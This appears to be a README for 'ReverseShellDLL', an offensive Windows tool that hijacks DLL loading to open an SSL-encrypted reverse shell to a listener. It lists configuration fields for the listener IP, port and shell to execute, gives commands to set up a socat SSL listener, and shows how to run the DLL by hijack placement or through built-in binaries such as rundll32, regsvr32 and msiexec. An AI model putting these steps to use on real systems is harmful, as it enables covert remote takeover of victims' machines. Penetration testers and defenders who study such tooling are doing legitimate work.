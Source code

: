 ReverseShellDLL
===============

Main Features
-------------
1. Universal DLL Hijack - ReverseShellDLL uses the DLL_PROCESS_ATTACH notification to ensure that the reverse shell is executed regardless of the export called. When the reverse shell exits, the process is gracefully terminated, hence the "export not found" error message will never show. 
2. SSL Encryption - ReverseShellDLL uses OpenSSL library to perform the encryption.
3. Statically Linked - ReverseShellDLL will run on all recent Windows versions out of the box without need for .NET framework or Microsoft C Runtime library to be installed.

![image](https://limbenjamin.com/media/reverseshelldll.png)

Configuration
-------------
```
ip 	- IP Address where listener is running
port 	- Port where listener is running
process - Shell to Execute (i.e. cmd.exe, powershell.exe, bash.exe)
exitCmd	- Typing this Cmd will cause the program to terminate


bufferSize (bytes) / delayWait (millisecs)
- High bufferSize and high delayWait will result in huge chunks of output to be buffered and sent at one time.
- Low bufferSize and low delayWait will result in "smooth" terminal experience at the expense of more small packets.  

* Some binaries verify that exports match before loading DLLs. You might have to change the export names in ReverseShellDLL.cpp to match the target hijack binary.

```

Compilation Instructions
------------------------
1. Install OpenSSL. I used the version from [https://slproweb.com/products/Win32OpenSSL.html](https://slproweb.com/products/Win32OpenSSL.html). Installation path is `C:\Program Files\OpenSSL-Win64`. Make sure to select the option to copy DLL to system folder during installation. Otherwise, you may have to tweak the Project Properties to get it to compile.
2. Git clone repository
3. Configure as necessary
4. Build binary

Running
-------
1. Generate SSL cert on listener machine
```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
cat key.pem cert.pem > test.pem
```
2. Start listener
```shell
socat openssl-listen:1443,reuseaddr,cert=test.pem,verify=0,fork,crnl -
```
3. Deploy DLL in appropriate hijack location. If necessary, it can also be started via rundll32, regserver32 or other LOLBINs.
```shell
rundll32.exe ReverseShellDLL.dll,UniversalSoWhatEverYouTypeHereWillWork
rundll32.exe ReverseShellDLL.dll,CoCreateInstance
regsvr32.exe ReverseShellDLL.dll
msiexec /y "C:\path\to\dll\ReverseShellDLL.dll"
```



